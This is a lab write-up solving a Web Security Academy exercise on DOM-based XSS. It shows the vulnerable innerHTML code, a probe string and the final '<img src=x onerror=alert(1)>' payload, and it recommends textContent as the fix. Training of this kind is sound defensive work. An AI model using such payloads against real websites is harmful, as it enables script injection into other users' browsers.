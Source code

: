 ## 🧪 Lab: DOM XSS in innerHTML sink using source location.search (APPRENTICE)

### 🎯 Mission Description  
This lab contains a **DOM-based XSS** vulnerability in the blog search functionality. It uses `.innerHTML` to inject data from `location.search` directly into the page without sanitization.

### 🎯 Mission Objective  
Trigger an alert using a DOM XSS payload via the `search` parameter in the URL.

### 🧩 Steps  
1. Open the lab URL:  
   ```
   https://0abc0073042520c4a26ea0e1002900e7.web-security-academy.net/?search=test
   ```

2. You’ll see this in the rendered HTML:
   ```html
   <span id="searchMessage">test</span>
   ```

3. View the source code:
   ```html
   <script>
       function doSearchQuery(query) {
           document.getElementById('searchMessage').innerHTML = query;
       }

       var query = (new URLSearchParams(window.location.search)).get('search');

       if(query) {
           doSearchQuery(query);
       }
   </script>
   ```

4. Try an injection test like:
   ```
   ?search=X<"x
   ```

   Result:
   ```html
   <span id="searchMessage">X<"x</span>
   ```

   ✅ Confirms it's directly injected → vulnerable.

5. Final payload:
   ```
   ?search=<img src=x onerror=alert(1)>
   ```

6. The page renders:
   ```html
   <span id="searchMessage"><img src=x onerror=alert(1)></span>
   ```

   💥 Alert box pops → XSS success.

### 💣 Final Payload  
```
https://0abc0073042520c4a26ea0e1002900e7.web-security-academy.net/?search=<img src=x onerror=alert(1)>
```

*(Make sure to URL-encode the payload if needed.)*

### 📝 Notes  
- This is a classic **DOM XSS** using `.innerHTML` as the vulnerable sink.
- The source of the input is `location.search` (i.e., the query string).
- Best fix: replace `innerHTML` with `textContent`.

**Status: Solved ✅**
